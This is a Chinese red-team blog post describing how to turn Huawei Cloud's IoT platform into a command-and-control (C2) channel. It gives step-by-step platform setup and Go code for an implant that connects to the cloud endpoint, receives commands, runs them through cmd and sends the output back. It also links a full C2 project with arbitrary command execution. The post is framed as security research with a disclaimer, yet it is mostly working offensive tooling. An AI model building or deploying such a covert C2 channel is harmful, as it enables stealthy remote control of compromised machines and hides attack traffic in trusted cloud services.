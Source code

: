 #  集权系统即C2-华为云

原创 unknown  [ 极致攻防实验室 ](javascript:void\(0\);)

**极致攻防实验室** ![]()

微信号 jz_sec

功能介绍 极致攻防实验室专注于最前沿，最基础，最实际的红蓝对抗黑客技术。

____

___发表于_

收录于合集

#红队 2 个

#渗透 3 个

#C2 3 个

**免责声明：**

本文章或工具仅供安全研究使用，请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，极致攻防实验室及文章作者不为此承担任何责任。

 **前言：**

在上一篇文章中使用了[牧云主机管理](http://mp.weixin.qq.com/s?__biz=Mzg5MDcyODg4OA==&mid=2247483762&idx=1&sn=cc6ff2548dfafbd338ae36601c9f461a&chksm=cfd979a5f8aef0b32957ce295a584c82d0c4fb39668027c7ca7094500f4d1c4f21e5a803eaa6&scene=21#wechat_redirect)充当远程C2，利用其自带官方签名和官方通信信道的天然优势，结合默认安装手法，看似已经完美。但是作为服务的使用者，一切能力都是建立Sass服务商所提供的功能，其实仅简单的命令执行和文件上传，还是不太满足红队工作的常见场景。本文将介绍另一款使用某云厂商的物联网平台用作红队C2，并且可以在普通权限下，可自主实现功能代码与平台进行交互(附项目源码)，用于拓展与满足红队日常渗透场景。（再次申明：云服务需要实名认证，请勿用于非法用途）。

  

 **一、平台准备：**

 **开通免费单元：**

使用账号登录到物联网平台，在IoTDA实例中，点击标准版，开通免费单元

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619093700.png)

实例名称随便填写，可以看到免费版支持1000台设备在线  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619093707.png)  

  

 **创建产品：**  

创建产品,除了协议类型和数据格式，可以随便填写或选择，其中协议类型可以选择多种协议，此处选择MQTT协议。

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619093708.png)

 **创建服务：**

定义模型，才能创建服务：  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619093711.png)

添加服务后，添加命令并且新增命令，命令参数此处添加了两个，用于接下来的命令执行的下发和响应。  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619093712.png)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619093714.png)

  

 **注册设备：**

设备ID和密钥用于后续C2的连接，其他默认即可：

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619093715.png)

注册设备完成后如图所示，等待设备连接后激活：  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619093716.png)

  

 **二、C2连接与功能开发：**

C2开发即iot设备的开发，参考官方文档SDK参考，可以使用java、c#、c、python、go等语言进行开发,本文将使用GO语言进行c2（设备）的开发与连接：

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619093718.png)

 ** **  
****

 ** **设备连接：****  

CreateIotDevice处填入注册设备时的设备id和密钥、连接地址查看实例的接入信息

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    package main  
    import (  "fmt"  "github.com/ctlove0523/huaweicloud-iot-device-sdk-go")  
    func main() {  // 创建一个设备并初始化  device := iot.CreateIotDevice("xxx", "xxx", "tls://xxxx.xxx.myhuaweicloud.com:8883")  device.Init()  if device.IsConnected() {    fmt.Println("device connect huawei iot platform success")  } else {    fmt.Println("device connect huawei iot platform failed")  }  
      var forever chan struct{}  <-forever}

  

尝试连接，平台测可以看到设备在线

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619093719.png)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619093720.png)

  

 **功能开发：**

接下来编写一个执行ipconfig功能

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    package main  
    import (  "fmt"  "github.com/ctlove0523/huaweicloud-iot-device-sdk-go")  
    func main() {  // 创建一个设备并初始化  device := iot.CreateIotDevice("xxx", "xxx", "tls://xxxx.xxx.myhuaweicloud.com:8883")  device.Init()  if device.IsConnected() {    fmt.Println("device connect huawei iot platform success")  } else {    fmt.Println("device connect huawei iot platform failed")  }  // 添加用于处理平台下发命令的callback  device.AddCommandHandler(func(command iot.Command) (bool, interface{}) {    cmd := exec.Command("cmd", "/c", "ipconfig")      output, err := cmd.CombinedOutput()    if err != nil {      return false, ""    }    return true, string(output)    })  
      var forever chan struct{}  <-forever}

  

平台侧调试：

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619093721.png)

点击发送，可以看到命令结果回显：  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619093722.png)

  

 **三、hw-iot-c2:**

https://github.com/UltimateSec/hw-iot-c2

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619093723.png)

修改一下命令形式，适配c2架构

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619093724.png)

任意命令执行：

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619093725.png)

更多功能可参考代码自主拓展。

  
 **四、局限**

  * 自定义程序，无官方签名
  * 云服务实名认证，请合法合规使用  

  
 **五、参考**  
https://support.huaweicloud.com/sdkreference-iothub/iot_02_00920.html  

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

